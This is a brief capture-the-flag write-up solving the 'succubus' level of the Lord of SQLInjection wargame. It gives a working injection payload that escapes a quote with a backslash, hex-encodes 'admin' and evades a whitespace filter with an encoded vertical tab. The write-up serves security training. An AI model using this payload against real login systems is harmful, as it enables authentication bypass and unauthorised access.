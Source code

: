```yaml
---
layout: default
title: succubus
---
```


# Lord of SQLInjection succubus Solution

The payload will be for id: `\`
for pw: `||id=0x61646D696E--%0b` 
and the whole query will look like this: `id=\&pw=||id=0x61646D696E--%0b`